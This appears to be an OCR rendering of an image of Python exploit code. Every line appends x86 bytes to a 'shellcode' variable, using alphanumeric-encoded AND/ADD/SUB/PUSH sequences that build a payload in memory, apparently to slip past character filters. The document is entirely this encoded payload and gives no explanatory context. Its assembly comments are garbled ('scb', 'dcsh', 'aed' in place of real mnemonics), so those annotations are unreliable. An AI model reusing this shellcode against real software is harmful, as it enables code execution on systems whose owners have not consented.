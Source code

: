 ```python
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x51\x61\x71\x46" ## add  eax, 0x46716151
shellcode += "\x05\x41\x61\x71\x45" ## add  eax, 0x45716141
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x37\x27\x56\x62" ## add  eax, 0x62562737
shellcode += "\x05\x36\x16\x45\x61" ## add  eax, 0x61451636
shellcode += "\x05\x35\x25\x46\x42" ## add  eax, 0x42462535
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x47\x65\x57\x43" ## add  eax, 0x43576547
shellcode += "\x05\x46\x64\x46\x43" ## add  eax, 0x43466446
shellcode += "\x05\x45\x44\x45\x42" ## add  eax, 0x42454445
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x36\x43\x37\x53" ## add  eax, 0x53374336
shellcode += "\x05\x35\x43\x26\x42" ## add  eax, 0x42264335
shellcode += "\x05\x24\x32\x25\x42" ## add  eax, 0x42253224
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x76\x63\x66\x13" ## add  eax, 0x13666376
shellcode += "\x05\x76\x52\x66\x14" ## add  eax, 0x14665276
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x21\x22\x71\x53" ## add  eax, 0x53712221
shellcode += "\x05\x20\x21\x70\x43" ## add  eax, 0x43702120
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x12\x25\x67\x17" ## add  eax, 0x17672512
shellcode += "\x05\x11\x25\x67\x06" ## add  eax, 0x06672511
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x24\x03\x75\x43" ## add  eax, 0x43750324
shellcode += "\x05\x24\x03\x65\x43" ## add  eax, 0x43650324
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x34\x26\x33\x35" ## add  eax, 0x35332634
shellcode += "\x05\x44\x26\x43\x34" ## add  eax, 0x34432644
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x24\x13\x76\x24" ## add  eax, 0x24761324
shellcode += "\x05\x24\x23\x66\x24" ## add  eax, 0x24662324
shellcode += "\x05\x23\x13\x54\x24" ## add  eax, 0x24541323
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x33\x57\x14\x04" ## add  eax, 0x04145733
```